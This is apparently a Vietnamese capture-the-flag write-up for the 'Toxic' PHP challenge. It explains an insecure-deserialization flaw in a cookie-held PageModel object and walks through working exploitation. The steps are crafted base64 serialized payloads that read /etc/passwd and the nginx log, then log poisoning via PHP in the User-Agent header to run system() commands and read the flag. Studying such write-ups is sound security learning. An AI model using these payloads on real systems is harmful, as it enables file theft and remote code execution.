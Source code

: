 # `CHALLENGE DESCRIPTION`

<table>
<th style="text-align: center">
<img width="600" height="1">

```
CHALLENGE INFO
```

</th>

<th style="text-align: center">
<img width="350" height="1">

```
TABLE OF CONTENT
```

</th>
<tr>

<td width="600">      

<code> Toxic </code>

Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation. 🐸

**Tags:** `PHP`, `source-code-analysis`, `insecure-deserialization`, `log-poisioning`

</td>

<td>
<img width="600" height="1">

- [`CHALLENGE DESCRIPTION`](#challenge-description)
- [`QUICK PREVIEW`](#quick-preview)
- [`SOURCE CODE ANALYSIS`](#source-code-analysis)
- [`EXPLOITAION`](#exploitaion)
	- [Log Poisoning](#log-poisoning)
	- [`👽` Get Flag](#-get-flag)
</td>

</tr></table>

# `QUICK PREVIEW`

Đây là một bài White Box, chúng ta được cung cấp source code của Web App.

Sau khi giải nén folder `Toxic.zip`, ta được folder có cấu trúc như sau: 

```shell
Toxic
└── web_toxic
    ├── challenge
	│   ├── models
	│	│   └── PageModel.php
	│   ├── static
	│   │   ├── basement
	│   │   ├── css
	│   │   ├── images
	│   │   └── js
	│   ├── index.html
    │   └── index.php
    ├── config
	│   ├── fpm.conf
	│   ├── nginx.conf
	│   └── supervisord.conf
	├── build-docker.sh
	├── Dockerfile
	├── entrypoint.sh
	└── flag
```

→ Ta có cái nhìn sơ lược về Web App: 
+ Web Tech: `PHP`
+ Server: `nginx` 

Đây là giao diện của trang web

![](../../attachments/Pasted%20image%2020220727042358.png)

→ Mình chưa tìm thấy tính năng gì của trang web cả. → Đọc source code thôi!

# `SOURCE CODE ANALYSIS`
Khi mình đọc được code của file `index.php`, mình biết được sự tồn tại của cookie cũng như cách hình thành nên nó.

App sẽ tạo giá trị của cookie bằng cách thực hiện quá trình `serialize` biến `$page`, sau đó encode bằng thuật toán base64. Đồng thời cũng gán thời gian tồn tại của `cookie` là 86400 giây.

```php
<?php

spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID',
        base64_encode(serialize($page)),
        time()+60*60*24,
        '/'
    );
}

$cookie = base64_decode($_COOKIE['PHPSESSID']);

unserialize($cookie);
```

Nhìn kĩ lại biến `$page` là một `object PageModel`, vậy PageModel này là gì ? Tiếp tục nhìn source code, mình phát hiện file `PageModel.php` nằm trong folder `Toxic\web_toxic\challenge\models\` có nội dung như sau:

```php
<?php
class PageModel
{
    public $file;

    public function __destruct()
    {
        include($this->file);
    }
}
```

→ PageModel là một object có 1 property là `$file` và một magic method là `__destruct()` (method này sẽ tự động được gọi khi  1 object PageModel không được sử dụng nữa, cụ thể [here](https://www.php.net/manual/en/language.oop5.decon.php#object.destruct))

Ở đây, app đã bị lỗi `Insecure deserialization`.  Bởi những chuỗi các yếu tố liên kết sau:

+ `Untrusted Data` ( `$_COOKIE['PHPSESSID']` ) rơi vào quá trình `Deserialize`
+ Một `object` có `magic method` thực thi một `sink` nguy hiểm ( `include()` )

# `EXPLOITAION`

Quá trình exploit khá đơn giản (khi chưa bị Object Injection cũng như Gadget Chains).

Đầu tiên, mình sẽ xem hình dạng của cookie trước và sau khi decode base64 như thế nào. Và trông mặt mũi một object khi được seriallize.

![](../../attachments/Pasted%20image%2020220727051536.png)

Sau khi decode base64, cookie của ta có giá trị như sau:

![](../../attachments/Pasted%20image%2020220727051637.png)

Bắt đầu exploit bằng một payload đơn giản, mục đích của payload này là đọc được file /etc/passwd. Và mình sẽ thử modify cookie lại cho đúng syntax của một object sau khi seriallize như sau:

```
O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}
```

> Để đảm bảo đúng cấu trúc syntax của một object khi seriallize thì có thể tham khảo thêm [here](https://www.php.net/manual/en/function.serialize.php). 

Tiếp theo thực hiện encode base64 lại object.

```shell
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30=
```

Quăng vào cookie của trang web và xem kết quả:

![](../../attachments/Pasted%20image%2020220727052012.png)

→ Ngon. Hoàn toàn đọc được file /etc/passwd của server.

## Log Poisoning

Cũng tương tự, mình sẽ tạo ra 1 payload để có thể đọc được `file log` của server. Để biết file này nằm đâu ta có thể xem cho file `Docker` của src.

```
O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}
```

```shell
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
```

Tiếp theo mình sẽ thực hiện gửi một cú request với User-Agent như dưới:

```console
kali@kali:~$ curl -I http://46.101.2.216:30602/ -A "<?php echo 1+1;?>"
HTTP/1.1 200 OK
<--SNIP-->
```

Đây là kết quả

![](../../attachments/Pasted%20image%2020220727053231.png)

Payload đơn giản hoạt động tốt, tiếp đến ta sẽ thực hiện list ra xem thư mục root có những gì

```
kali@kali:~$ curl -I http://46.101.2.216:30602/ -A  "<?php system('ls /');?>"
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 26 Jul 2022 22:06:08 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/7.4.15
Set-Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9; expires=Wed, 27-Jul-2022 22:06:08 GMT; Max-Age=86400; path=/
```

Kết quả:

![](../../attachments/Pasted%20image%2020220727053501.png)

## `👽` Get Flag 

Tiến hành đọc FLAG thôi

```
kali@kali:~$ curl -I http://46.101.2.216:30602/ -A  "<?php system('cat /flag_Wqi4U');?>"
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 26 Jul 2022 22:06:26 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/7.4.15
Set-Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9; expires=Wed, 27-Jul-2022 22:06:26 GMT; Max-Age=86400; path=/
```

![](../../attachments/Pasted%20image%2020220727053924.png)


